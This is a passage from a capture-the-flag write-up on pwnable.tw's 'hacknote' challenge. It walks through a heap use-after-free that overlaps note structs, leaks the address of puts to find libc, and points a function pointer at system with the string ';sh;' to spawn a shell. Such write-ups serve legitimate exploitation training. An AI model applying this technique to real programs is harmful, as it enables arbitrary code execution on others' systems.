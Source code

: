&nbsp;


To accomplish this, we can abuse the use-after-free to overwrite a freed `note` struct. The goal is to make a `note` 
struct look like the following:
```c
note->print_func = *0x804862b;  // Address of the default print_func used by the binary
note->contents = *0x804a024;    // Address of GOT entry for puts
```

`malloc` returns the first available memory region, and generally reuses previously `free`ed regions. However, it has 
bins of specific sizes that generally are not moved. To demonstrate this, I made a small [test program](https://repl.it/repls/PaltryTrustyBrace):

{{ replit(id="@infuzion/pwnable-tw-hacknote-test-program") }}

The `note` struct malloc 8 bytes for the struct, and n bytes for the contents. If we allocate 2 notes with 8 bytes of 
contents each, and then free them, we can gain a pointer to the `note` struct. 
```c
// New note with 8 bytes content (Note A)
malloc(8);  // = 0x00 Note A struct
malloc(8);  // = 0x10 Note A contents
// New note with 8 bytes content (Note B)
malloc(8);  // = 0x20 Note B struct
malloc(8);  // = 0x30 Note B contents
// Delete note A
free(0x00);
free(0x10);
// Delete note B
free(0x20);
free(0x30);
// New note with 32 bytes contents (Note C)
malloc(8);  // = 0x00 Note C struct  <-> Note A struct
malloc(32); // = 0xA0 - This will be in a different bin from the smaller allocations
// New note with 8 bytes contents (Note D)
malloc(8);  // = 0x10 Note D struct   <- Note A contents
malloc(8);  // = 0x20 Note D contents -> Note B struct
```

Note D's contents will overwrite Note B's struct. Now we can simply set the contents of Note D to the needed values, and 
the print out index 1 to leak the libc address of `puts`. To find the libc base address, we can subtract the address of 
puts in the libc binary from the leaked address. Now we can find the address of any libc function. 

```python
LIBC_BASE = LEAKED_ADDR - L_ADDR_PUTS
ADDR_SYSTEM = LIBC_BASE + L_ADDR_SYSTEM
```

## Crafting a shell
To spawn a shell, we need a `note`'s struct to look like the following:
```c
note->print_func = *system;     // Address of system calculated from the leaked base address
note->contents = ";sh;";        // String to call /bin/sh
```

